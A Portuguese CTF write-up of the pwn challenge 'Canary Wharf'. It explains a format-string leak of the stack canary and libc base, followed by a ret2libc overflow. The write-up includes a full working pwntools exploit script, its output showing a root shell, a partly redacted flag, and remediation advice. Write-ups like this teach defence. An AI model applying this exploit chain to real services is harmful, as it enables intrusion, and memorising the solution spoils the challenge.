

# Canary Wharf | Fluid Attacks CTF 2026

`pwn` `format-string` `stack-canary` `bof` `ret2libc` `pwntools` `glibc-2.35`

| | |
|---|---|
| **Plataforma / evento** | Fluid Attacks CTF 2026 (etapa 2, 04/07/2026) |
| **Categoria** | Pwn (Binary Exploitation) |
| **Resolvido em** | 2026-07-04 |

## TL;DR

O "Fluid Banking Terminal" tem dois bugs. Em `check_balance()` há um format string (`printf(note)` com o memo do usuário), que me deixa vazar o que quiser da stack: uso isso para ler o stack canary (`%25$p`) e um endereço de retorno da libc (`%3$p`) numa única requisição. Em `transfer_funds()` há um estouro de buffer (`read(0, amount, 256)` num `amount[64]`). Com o canary vazado eu posso estourar o buffer preservando o canary, então monto um ret2libc clássico: `pop rdi; ret` -> `"/bin/sh"` -> `system()`. Cai num shell como root e leio `/flag.txt`.

> [!IMPORTANT]
> **Ideia-chave:** canary e PIE/Full RELRO só protegem enquanto você não vaza nada. O format string vaza canary e base da libc de uma vez, e aí o overflow vira um ret2libc comum.

## Enunciado

> Fluid Banking Terminal v3.1.4. "Your finances, secured."

**Arquivos / instância:** `bank` (ELF 64-bit PIE), código-fonte `bank.c`, `libc.so.6` e `ld-linux-x86-64.so.2`. Na minha instância o serviço remoto era `7dc0a9a999cc700b.chal.ctf.ae:443` (TLS).

## Dicas progressivas

<details><summary>Dica 1</summary>Duas funções, dois bugs. Uma imprime a sua entrada sem format string fixa; a outra lê mais bytes do que o buffer comporta.</details>
<details><summary>Dica 2</summary>O format string de <code>check_balance</code> vaza stack. Procure o canary (<code>...00</code> no fim) e um ponteiro para a libc.</details>
<details><summary>Dica 3</summary>Com canary e libc vazados, estoure <code>transfer_funds</code> mantendo o canary e faça ret2libc para <code>system("/bin/sh")</code>.</details>

## Ambiente

- **Máquina atacante:** Kali Linux, `pwntools`.
- **libc:** a fornecida é a `glibc 2.35` (Ubuntu 22.04). Rodo local com o loader fornecido (`ld-linux-x86-64.so.2 --library-path .`) para casar com o remoto.

***INSERIR no terminal: Kali (atacante)

```bash
export HOST=7dc0a9a999cc700b.chal.ctf.ae
```

Na minha instância o serviço estava em `HOST:443` com TLS (o script já trata isso).

## Resolução

### 1. checksec e os dois bugs

***INSERIR no terminal: Kali (atacante)

```bash
checksec --file=./bank
```

```text
Arch:    amd64-64-little
RELRO:   Full RELRO
Stack:   Canary found
NX:      NX enabled
PIE:     PIE enabled
```

Tudo ligado. Olhando o `bank.c`:

#### `bank.c` (trechos)

```c
void check_balance(void) {
    char note[128];
    // ...
    int n = read(0, note, 127);
    // ...
    printf("Account Holder: ");
    printf(note);              // BUG 1: format string
}

void transfer_funds(void) {
    char amount[64];
    // ...
    read(0, amount, 256);      // BUG 2: lê 256 em buffer de 64 -> overflow
}
```

> [!TIP]
> **Conceito: format string (`printf(user)`).** Quando o primeiro argumento do `printf` é controlado pelo usuário, cada `%p`/`%x` lê uma palavra da stack e `%n` escreve. `%k$p` lê diretamente o k-ésimo argumento. Isso derrota PIE e canary porque permite *ler* endereços em runtime. Referência: [OWASP: Format string attack](https://owasp.org/www-community/attacks/Format_string_attack).

### 2. Encontrando os índices do format string

Com um probe `%p|%p|%p|...` (meus `scripts/script1.py`...`script3.py` fizeram isso e classificaram os leaks) achei dois índices úteis, confirmados localmente:

- `%25$p` = o **stack canary** (reconhecível pelo byte baixo `00`).
- `%3$p` = um endereço dentro da libc, a uma distância fixa da base: `libc_base + 0x114907` (comparei o leak com a base real local para achar esse offset).

### 3. Offset até o canary e layout do overflow

Em `transfer_funds`, `amount[64]`. Com um padrão cíclico confirmei o layout:

```
amount[64] + padding[8] + canary[8] + saved_rbp[8] + RIP
```

Ou seja, o canary começa no offset **72** a partir do início de `amount`. O payload precisa reescrever os 72 bytes, recolocar o canary correto, 8 bytes de rbp falso, e então a cadeia ROP.

### 4. ret2libc

Com `libc_base`, resolvo `pop rdi; ret`, `ret` (alinhamento de stack, necessário na glibc 2.35 para `system` por causa do `movaps`), `"/bin/sh"` e `system`. Script completo (local e remoto), idêntico ao arquivo em `scripts/`:

#### `scripts/script6.py`

```python
#!/usr/bin/env python3
from pwn import *
import re
import sys
import time

# ============================================================
# Canary Wharf exploit corrigido
#
# Vulnerabilidades:
# 1. check_balance(): printf(note)
#    Permite format string e leak de stack/libc/canary.
#
# 2. transfer_funds(): read(0, amount, 256)
#    amount tem só 64 bytes, então temos overflow.
#
# Estratégia:
# - Vazar canary e libc em UMA única chamada de check_balance().
# - Calcular base da libc.
# - Preservar canary no overflow.
# - Fazer ret2libc para system("/bin/sh").
# - Executar cat /flag.txt.
# ============================================================

context.binary = "./bank"
context.log_level = "info"

BIN = "./bank"
LD = "./ld-linux-x86-64.so.2"
LIBC_PATH = "./libc.so.6"
LIBC_DIR = "."

HOST = "7dc0a9a999cc700b.chal.ctf.ae"
PORT = 443

elf = ELF(BIN)
libc = ELF(LIBC_PATH)

# Confirmados localmente:
# %25$p = stack canary
# %3$p  = libc.so.6 + 0x114907
CANARY_INDEX = 25
LIBC_LEAK_INDEX = 3
LIBC_LEAK_OFFSET = 0x114907

# Layout provável:
# amount[64] + padding[8] + canary[8] + saved_rbp[8] + RIP
OFFSET_TO_CANARY = 72

def start():
    """
    Modo remoto por padrão.
    Para testar local:
    python3 script6.py local
    """
    if len(sys.argv) > 1 and sys.argv[1] == "local":
        return process([LD, "--library-path", LIBC_DIR, BIN])

    return remote(HOST, PORT, ssl=True, sni=HOST)

def leak_canary_and_libc(p):
    """
    Faz um único leak com:
    %25$p|%3$p

    Isso evita o bug anterior em que o script consumia o prompt
    e depois ficava esperando outro prompt que não existia.
    """
    p.recvuntil(b"> ")
    p.sendline(b"1")

    p.recvuntil(b"Enter account memo: ")

    payload = f"%{CANARY_INDEX}$p|%{LIBC_LEAK_INDEX}$p".encode()
    log.info(f"format payload = {payload!r}")
    p.sendline(payload)

    data = p.recvuntil(b"> ", timeout=5)

    print()
    print("=" * 90)
    print("RESPOSTA DO LEAK")
    print("=" * 90)
    print(data.decode(errors="replace"))

    match = re.search(rb"Account Holder: (0x[0-9a-fA-F]+)\|(0x[0-9a-fA-F]+)", data)
    if not match:
        raise RuntimeError("Não consegui parsear canary/libc leak.")

    canary = int(match.group(1), 16)
    libc_leak = int(match.group(2), 16)

    return canary, libc_leak

def build_payload(canary, libc_base):
    """
    Monta payload ret2libc.
    """
    libc.address = libc_base

    rop = ROP(libc)

    ret = rop.find_gadget(["ret"]).address
    pop_rdi = rop.find_gadget(["pop rdi", "ret"]).address
    bin_sh = next(libc.search(b"/bin/sh\x00"))
    system = libc.sym["system"]

    log.info(f"canary    = {canary:#x}")
    log.info(f"libc leak = {libc_base + LIBC_LEAK_OFFSET:#x}")
    log.info(f"libc base = {libc_base:#x}")
    log.info(f"ret       = {ret:#x}")
    log.info(f"pop rdi   = {pop_rdi:#x}")
    log.info(f"/bin/sh   = {bin_sh:#x}")
    log.info(f"system    = {system:#x}")

    payload = b"A" * OFFSET_TO_CANARY
    payload += p64(canary)
    payload += b"B" * 8
    payload += p64(ret)
    payload += p64(pop_rdi)
    payload += p64(bin_sh)
    payload += p64(system)

    return payload

def exploit():
    p = start()

    canary, libc_leak = leak_canary_and_libc(p)
    libc_base = libc_leak - LIBC_LEAK_OFFSET

    print()
    print("=" * 90)
    print("VALORES CALCULADOS")
    print("=" * 90)
    print(f"canary:    {canary:#x}")
    print(f"libc leak: {libc_leak:#x}")
    print(f"libc base: {libc_base:#x}")

    payload = build_payload(canary, libc_base)

    print()
    print("=" * 90)
    print("ENVIANDO OVERFLOW")
    print("=" * 90)

    # O prompt > já foi consumido pelo recvuntil anterior.
    # O programa está parado aguardando opção do menu.
    p.sendline(b"2")
    p.recvuntil(b"Enter transfer details: ")
    p.sendline(payload)

    time.sleep(0.4)

    # Se system('/bin/sh') funcionou, esses comandos serão executados no shell.
    p.sendline(b"cat /flag.txt")
    p.sendline(b"id")
    p.sendline(b"exit")

    output = p.recvall(timeout=5)

    print()
    print("=" * 90)
    print("OUTPUT FINAL")
    print("=" * 90)
    print(output.decode(errors="replace"))

    match = re.search(rb"flag\{[^}\r\n]+\}", output, re.IGNORECASE)
    if match:
        flag = match.group(0).decode()
        print()
        print("=" * 90)
        print("[+] FLAG ENCONTRADA")
        print("=" * 90)
        print(flag)

        with open("flag.txt", "w", encoding="utf-8") as f:
            f.write(flag + "\n")

        print("[+] Flag salva em flag.txt")
    else:
        print()
        print("[-] Flag não apareceu.")
        print("[*] Se não houve 'stack smashing detected', o próximo ajuste é testar local com:")
        print("    python3 script6.py local")

if __name__ == "__main__":
    exploit()
```

***INSERIR no terminal: Kali (atacante)

```bash
python3 scripts/script6.py
```

```text
canary:    0xd51ee833e1d17200
libc leak: 0x7f4b4807f907
libc base: 0x7f4b47f6b000
[*] pop rdi   = 0x7f4b47f953e5
[*] /bin/sh   = 0x7f4b48143678
[*] system    = 0x7f4b47fbbd70

OUTPUT FINAL
flag{a39f962f5b7XXXXX}
uid=0(root) gid=0(root) groups=0(root)
[+] FLAG ENCONTRADA
flag{a39f962f5b7XXXXX}
```

Repare no canary vazado: `0xd51ee833e1d17200`, terminando em `00` (o byte nulo que o canary sempre tem), confirmação de que `%25$p` acertou. O shell saiu como `uid=0(root)`, então `cat /flag.txt` imprime a flag.

> **Local x remoto:** na glibc 2.35, `system` executa `movaps`, que exige a stack alinhada em 16 bytes. Por isso coloco um gadget `ret` extra antes da cadeia; sem ele, o exploit funciona ou crasha dependendo do alinhamento. Rodei local com o loader fornecido (`python3 scripts/script6.py local`) antes de ir ao remoto, para garantir que os offsets batem com a libc 2.35 do desafio.

## Cadeia de ataque



## Por que funciona

As mitigações (canary, PIE, Full RELRO, NX) assumem que o atacante não conhece segredos de runtime. O format string quebra exatamente essa suposição: vaza o canary (derrotando o stack protector) e um ponteiro da libc (derrotando o ASLR da libc). Com os dois valores, o overflow de `transfer_funds` deixa de ser bloqueado pelo canary e o NX é contornado com ret2libc (reuso de código, sem shellcode). A primitiva final é controle do RIP com a libc mapeada conhecida, ou seja, execução arbitrária.

## Remediação

- Nunca passar entrada do usuário como format string: `printf("%s", note)`.
- Respeitar o tamanho do buffer: `read(0, amount, sizeof(amount)-1)`.
- Compilar com `_FORTIFY_SOURCE` (pega alguns format strings) e revisar com `-Wformat-security`.

## Lições e padrões

- **Sinais para reconhecer:** `printf(var)` sem string de formato = leak/arbitrary write; `read`/`gets`/`fgets` com tamanho maior que o buffer = overflow. Juntos, canary deixa de ser obstáculo.
- **Da próxima vez eu tentaria primeiro:** mapear os índices do format string (`%p` em sequência), identificar canary (`...00`) e um ponteiro de libc/stack/PIE, medir offsets com `cyclic`, e validar local com o loader fornecido antes do remoto. Em glibc 2.3x, já incluo o `ret` de alinhamento por padrão.

## Referências

- [OWASP: Format string attack](https://owasp.org/www-community/attacks/Format_string_attack)
- [ret2libc / ROP (pwntools docs)](https://docs.pwntools.com/en/stable/rop/rop.html)

## Flag

```text
flag{a39f962f5b7XXXXX}
```
